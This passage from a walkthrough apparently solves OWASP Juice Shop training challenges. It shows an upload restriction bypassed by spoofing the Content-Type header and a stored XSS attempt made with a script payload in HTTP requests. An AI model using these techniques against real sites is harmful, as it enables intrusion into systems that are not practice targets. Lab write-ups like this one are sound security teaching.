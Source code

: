 ```
# Upload Type

> Upload a file that has no .pdf extension.

As above, upload a file normally to capture the POST request and send it to Burp Repeater. Replace the contents of the file with some text, and change the 'filename' to something other than PDF.  Keep 'application/pdf' as the Content-Type.

```{% raw %}
POST /file-upload HTTP/1.1
[Host: juice.shop:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://juice.shop:3000/
Authorization: [...]

-----------------------------185727723014332259391007075656
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: application/pdf

what if i'm just a test file :'(

-----------------------------185727723014332259391007075656--
{% endraw %}```

Likely the application is checking the Content-Type to confirm it's a PDF, but ignoring the filename (extension) and the contents of the file itself.

![pdf](/img/owasp-juice-shop-v7.3.0/juice064.png)

# XSS Tier 2

> Perform a persisted XSS attack with \<script\>alert(\"XSS\")\</script\> bypassing a client-side security mechanism.

First we have to find somewhere that stores and displays user input and uses a client-side control when accepting that input. Plenty of places take user input but use server-side controls. The product reviews, for example, do not appear to be modified before being sent to the server.

```
PUT /rest/product/23/reviews HTTP/1.1
[...]

{"message":"<script>alert(\"XSS\")</script>","author":"a@a.a"}
```

Viewing that review, we find it is safely encoded. Something must have occurred on the server.

```
<p class="ng-binding">&lt;script&gt;alert("XSS")&lt;/script&gt;</p>
```

The user registration form, however, prevents us from using using an invalid email before any request is sent to the server - it must be evaluating the email address on the client side.

![XSS2](/img/owasp-juice-shop-v7.3.0/juice055.png)

Create a new user with a valid email address to observe the request that is generated.

```
POST /api/Users/ HTTP/1.1
[...]
